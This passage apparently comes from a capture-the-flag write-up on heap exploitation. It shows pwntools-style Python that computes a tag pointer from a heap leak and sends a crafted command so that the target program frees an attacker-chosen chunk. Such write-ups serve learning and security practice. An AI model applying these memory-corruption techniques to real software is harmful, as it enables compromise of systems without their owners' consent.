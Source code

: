 ![finding heap offset](./images/heap_offset.png "finding heap offset")

I sent " BBBB CCCC DDDD " as the command, and "EEEE" to make the input recognizable. I also highlighted the tag pointer of the second command. We can see that this pointer is located at 0x55d496bbd3a0. This is 0x100 above our leak so we can add the following to our exploit script.

```py
tag_ptr = heap_leak + 0x100
log.info(f"address of tag_ptr for cmd 2: {hex(tag_ptr)}")
```

If we were to remove the last arg of the second command now (the one with index 1), it would try to free the address "BBBB". We will therefore use the python script we have so far and add another command with the following input: " p64(tag_ptr) arg1 arg2 ". The tag is irrelevant, but make sure to include the spaces in the command. We will then proceed to remove the last arg of our second command, freeing the tag pointer of the second command.

To confirm this we can add the following to our python script and check that the chunk with the tag pointer is freed. Notice that I couldn't get p64 to work as intended so I found an alternative solution.

```py
tag_ptr=str(hex(tag_ptr))
payload_for_free = b" " + bytes.fromhex(tag_ptr[12:14]) +bytes.fromhex(tag_ptr[10:12]) +bytes.fromhex(tag_ptr[8:10]) +bytes.fromhex(tag_ptr[6:8]) +bytes.fromhex(tag_ptr[4:6]) +bytes.fromhex(tag_ptr[2:4]) + b" " + b"E"*4 + b" " + b"F"*0x4 + b" "

p.recvuntil(b">>")
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(payload_for_free) # need 3 args to control free
p.recvuntil(b">>")
p.sendline(b"G"*8)

p.recvuntil(b">>") # free tag pointer
p.sendline(b"5")
p.recvuntil(b">>")
p.sendline(b"1")

p.interactive()
```